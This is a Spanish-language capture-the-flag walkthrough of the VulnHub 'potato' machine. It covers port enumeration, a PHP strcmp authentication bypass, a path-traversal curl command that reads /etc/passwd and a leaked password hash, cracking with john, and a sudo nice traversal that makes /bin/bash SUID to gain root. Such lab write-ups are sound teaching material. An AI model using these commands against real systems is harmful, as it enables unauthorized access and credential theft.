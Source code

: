```yaml
---
layout: post
title: potato - VulnHub
subtitle: "potato - VulnHub"
tags: [Linux,php]
---
```


## Enumeración

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
2112/tcp open  ftp     ProFTPD
```

### FTP 2112

Usuario anonymous habilitado

```
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

El contenido del archivo `index.php.bak` revela una funcion vulnerable de `php` (strcmp).

```
[...]
if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
[...]
```


### Servicio web 80

**Omisión de autenticación**  
[http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/](http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/)

Si establezco `$_POST['password']` igual a una matriz vacía, entonces strcmp devolvería un NULL. Debido a algunas debilidades inherentes en las comparaciones de PHP, `NULL==0` devolverá verdadero.

![https://hydrasky.com/wp-content/uploads/2017/05/loose-comparison.png](https://hydrasky.com/wp-content/uploads/2017/05/loose-comparison.png)

Con esto en mente, envié la siguiente solicitud a la página de inicio de sesión a través de BurpSuite.

![php](../assets/imgs/potato/php.png)

Y nos logueamos como usuario `admin`.

![admin](../assets/imgs/potato/admin.png)

### LFI

Dentro del panel de administración encuentro una parámetro vulnerable obteniendo el resultado siguiente:

![lfi](../assets/imgs/potato/lfi.png)

```
❯ curl -s "http://192.168.188.101/admin/dashboard.php?page=log" -H "Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" --data "file=../../../../../etc/passwd" | html2text | grep "../.." -A 100
Contenu du fichier ../../../../../etc/passwd :
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/
nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/
nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/
sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
proftpd:x:112:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:113:65534::/srv/ftp:/usr/sbin/nologin
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/
```

Obtengo la contraseña de un usuario

```
❯ john --show hash
webadmin:dragon:1001:1001:webadmin,,,:/home/
```

## Escalada de privilegios

```
webadmin@serv:/tmp$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

> nice: ejecuta un programa con prioridad de programación modificada

Creamos un script

```
webadmin@serv:/tmp$ cat shell.sh 
#!/bin/bash

chmod +s /bin/bash
echo $(ls -l /bin/bash)
```

Ejecutamos el siguiente comando.

```
webadmin@serv:/tmp$ sudo /bin/nice /notes/../../../../../tmp/shell.sh
-rwsr-sr-x 1 root root 1183448 Feb 25 2020 /bin/bash
```

Obtenemos root

```
webadmin@serv:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/proof.txt 
417044d5f7358e8479462561c08d8362
```

### Herramientas usadas

- sudo
- nice
- php
- nmap
